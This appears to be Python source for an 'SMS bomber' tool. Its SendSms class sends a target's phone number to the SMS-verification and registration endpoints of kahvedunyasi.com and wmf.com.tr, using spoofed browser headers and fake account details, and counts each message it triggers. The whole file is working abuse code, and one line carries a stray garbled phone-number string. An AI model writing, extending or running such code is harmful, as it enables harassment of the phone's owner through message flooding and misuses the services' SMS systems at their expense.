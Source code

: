 import requests
from random import choice
from string import ascii_lowercase
from colorama import Fore, Style


class SendSms():
    adet = 400
    
    def __init__(self, phone, mail):
        self.phone = str(phone)
        if len(mail) != 0:
            self.mail = mail
        else:
            self.mail = ''.join(choice(ascii_lowercase) for i in range(20))+"@gmail.com"05421608727


    #kahvedunyasi.com
    def KahveDunyasi(self):    
        try:    
            url = "https://core.kahvedunyasi.com:443/api/users/sms/send"
            headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:121.0) Gecko/20100101 Firefox/121.0", "Accept": "application/json, text/plain, */*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate, br", "Page-Url": "/kayit-ol", "Content-Type": "application/json;charset=utf-8", "Positive-Client": "kahvedunyasi", "Positive-Client-Type": "web", "Store-Id": "1", "Origin": "https://www.kahvedunyasi.com", "Dnt": "1", "Sec-Gpc": "1", "Referer": "https://www.kahvedunyasi.com/", "Sec-Fetch-Dest": "empty", "Sec-Fetch-Mode": "cors", "Sec-Fetch-Site": "same-site", "Te": "trailers", "Connection": "close"}
            json={"mobile_number": self.phone, "token_type": "register_token"}
            r = requests.post(url, headers=headers, json=json, timeout=6)
            if r.status_code == 200:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> core.kahvedunyasi.com")
                self.adet += 1
            else:
                raise
        except:    
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> core.kahvedunyasi.com")
        
     
    #wmf.com.tr
    def Wmf(self):
        try:
            wmf = requests.post("https://www.wmf.com.tr/users/register/", data={
                "confirm": "true",
                "date_of_birth": "1956-03-01",
                "email": self.mail,
                "email_allowed": "true",
                "first_name": "Memati",
                "gender": "male",
                "last_name": "Bas",
                "password": "31ABC..abc31",
                "phone": f"0{self.phone}"
            }, timeout=6)
            if wmf.status_code == 202:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> wmf.com.tr")
                self.adet += 1   
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> wmf.com.tr")
    